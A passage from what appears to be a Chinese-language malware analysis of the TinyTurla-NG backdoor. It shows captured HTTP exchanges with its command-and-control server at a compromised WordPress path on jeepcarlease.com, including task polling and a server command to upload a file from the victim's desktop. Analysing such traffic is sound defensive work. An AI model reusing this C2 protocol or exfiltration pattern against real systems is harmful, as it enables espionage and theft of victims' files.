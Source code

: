```plain

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain

[+] ShortTimer and FailCounter changed. New ShortTimer is 1 minute & New FailCounter is 1
-----
....

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:10 GMT
Content-Length: 4

rsp:
```

#### 上传文件、下载文件类指令

上传文件、下载文件类指令的通信模型情况如下：

```plain
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 175
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="gettask"
Content-Type: text/plain

-----
.\
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:36 GMT
Content-Length: 39

rsp:post C:\Users\admin\Desktop\111.txt
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
```